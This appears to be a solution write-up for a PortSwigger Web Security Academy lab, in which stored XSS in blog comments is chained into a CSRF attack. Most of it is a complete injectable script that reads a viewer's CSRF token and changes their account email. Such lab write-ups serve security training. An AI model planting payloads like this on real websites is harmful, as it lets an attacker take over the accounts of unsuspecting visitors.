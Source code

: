 
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

# Exploitation

The injection point is known (comment body), inject the following payload:

```html
<script>
function change_mail(token) {

var url = "https://0a4100e90328735b8085852800c300a7.web-security-academy.net/my-account/change-email";

var params = "email=testexploit%40test.com&csrf=" + token;

var CSRF = new XMLHttpRequest();

CSRF.open("POST", url, false);

CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

CSRF.send(params);

}

  

function get_token() {

var XHR = new XMLHttpRequest();

XHR.onreadystatechange = function () {

if (XHR.readyState == 4) {

var htmlSource = XHR.responseText; //page source

parser = new DOMParser().parseFromString(htmlSource, "text/html");

token = parser.getElementsByName("csrf")[0].value;

console.log(token)

change_mail(token);

}

}

XHR.open('GET', 'https://0a4100e90328735b8085852800c300a7.web-security-academy.net/my-account', true);

XHR.send();

}

  

function run_csrf() {

get_token();

}

  

run_csrf();
</script>
```

Reload and the lab is solved!

HAVE IN MIND THE LAB HINT!